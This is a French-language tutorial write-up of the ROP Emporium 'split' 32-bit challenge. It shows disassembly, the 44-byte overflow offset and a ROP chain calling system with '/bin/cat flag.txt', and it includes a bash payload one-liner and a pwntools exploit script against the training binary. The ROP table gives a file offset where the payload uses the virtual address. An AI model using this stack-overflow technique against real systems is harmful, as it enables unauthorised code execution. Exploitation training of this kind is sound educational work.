 ```yaml
---
Title: Ropemporium x86 split
Date: 2023-06-11
Tags: [linux, python, ROP, x86, ropemporium, write-up]
Categories: [tutorial]
Author: cdpointpoint
---
```



# split x86_32

## Introduction.

Dans ce second exercice on doit passer une argument à la fonction appelée.
L'argument est présent dans le programme.

La démarche est la même qu'en x86 64 avec deux différences.
- la taille des registres est de 32 bits donc la sauvegarde de ebp occupe 4 bytes au lieu de 8 en 64 bits.
- Le passage des paramètre s'effectue exclusivement sur la pile.


## Analyse

Son regarde le code de la fonction pwnme :


   gef➤  disas pwnme
   Dump of assembler code for function pwnme:
      0x080485ad <+0>:	push   ebp
      0x080485ae <+1>:	mov    ebp,esp
      0x080485b0 <+3>:	sub    esp,0x28
      0x080485b3 <+6>:	sub    esp,0x4
      0x080485b6 <+9>:	push   0x20
      0x080485b8 <+11>:	push   0x0
      0x080485ba <+13>:	lea    eax,[ebp-0x28]
      0x080485bd <+16>:	push   eax
      0x080485be <+17>:	call   0x8048410 <memset@plt>
      0x080485c3 <+22>:	add    esp,0x10
      0x080485c6 <+25>:	sub    esp,0xc
      0x080485c9 <+28>:	push   0x80486d4
      0x080485ce <+33>:	call   0x80483d0 <puts@plt>
      0x080485d3 <+38>:	add    esp,0x10
      0x080485d6 <+41>:	sub    esp,0xc
      0x080485d9 <+44>:	push   0x8048700
      0x080485de <+49>:	call   0x80483c0 <printf@plt>
      0x080485e3 <+54>:	add    esp,0x10
      0x080485e6 <+57>:	sub    esp,0x4
      0x080485e9 <+60>:	push   0x60
      0x080485eb <+62>:	lea    eax,[ebp-0x28]
      0x080485ee <+65>:	push   eax
      0x080485ef <+66>:	push   0x0
      0x080485f1 <+68>:	call   0x80483b0 <read@plt>
      0x080485f6 <+73>:	add    esp,0x10
      0x080485f9 <+76>:	sub    esp,0xc
      0x080485fc <+79>:	push   0x8048703
      0x08048601 <+84>:	call   0x80483d0 <puts@plt>
      0x08048606 <+89>:	add    esp,0x10
      0x08048609 <+92>:	nop
      0x0804860a <+93>:	leave
      0x0804860b <+94>:	ret
   End of assembler dump.

On voit que la lecture se fait 40 octets avant l'adresse contenue dans ebp.

   0x080485eb <+62>:	lea    eax,[ebp-0x28]

L'offset de débordement est donc de 44 (0x2c) octets.

La fonction utile présente dans le code est  :

   gef➤  disas usefulFunction
   Dump of assembler code for function usefulFunction:
      0x0804860c <+0>:	push   ebp
      0x0804860d <+1>:	mov    ebp,esp
      0x0804860f <+3>:	sub    esp,0x8
      0x08048612 <+6>:	sub    esp,0xc
      0x08048615 <+9>:	push   0x804870e
   => 0x0804861a <+14>:	call   0x80483e0 <system@plt>
      0x0804861f <+19>:	add    esp,0x10
      0x08048622 <+22>:	nop
      0x08048623 <+23>:	leave
      0x08048624 <+24>:	ret
   End of assembler dump.

On pourra dont viser un retour en usefulFunction+14 pour executer un commande.

La chaine de caractère utile est disponible dans le code.

   /w/ropemporium/x32/split# rabin2 -z split32
   [Strings]
   nth paddr      vaddr      len size section type  string
   ―――――――――――――――――――――――――――――――――――――――――――――――――――――――
   0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
   1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
   2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
   3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
   4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
   5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
   0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt

## Construction de l'attaque.

Notre objectif va être d'appeller la fonction system en appellant l'adresse 0x0804861a avec en paramètre l'adresse la la chaine "/bin/cat flag.txt".

Pour passer le paramêtre il nous faut simplement placer sur la pile l'adresse de la chaine de caractère avec l'adresse de l'appel system.


### La ropchaine

La chaine de rop est simplement :

| ROP entry | comment |
| ----------- | ------- |
| 0x00001030 | @ /bin/cat flag.txt |
| 0x0804861a | appel system |


## Exploitation

### En bash

w/ropemporium/x32/split# printf "%44s\x1a\x86\x04\x08\x30\xa0\x04\x08" A |./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}

### Script python

``` python

#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

gs='''
b *pwnme+89
c
'''

#context(terminal=['tmux', 'split-window', '-h'])
# Set up pwntools for the correct architecture
elf =  ELF('split32')
context.binary=elf
# context(terminal=['tmux'])

useful_str=elf.symbols["usefulString"]
useful_fun=elf.symbols["usefulFunction"]

offset=0x2c

io = process([elf.path])
#io = gdb.debug([elf.path],gdbscript=gs)
# gdb.attach(io,gs)
time.sleep(.5)

print(f"{useful_str=:x}")
print(f"{useful_fun=:x}")

io.recvuntil(b"> ")

# On retourn en useful_fun pour sauter l'affectation de edi dans la fonction
PL=offset*b"A"+p32(useful_fun+14)+p32(useful_str)
io.sendline(PL)
io.interactive()

```







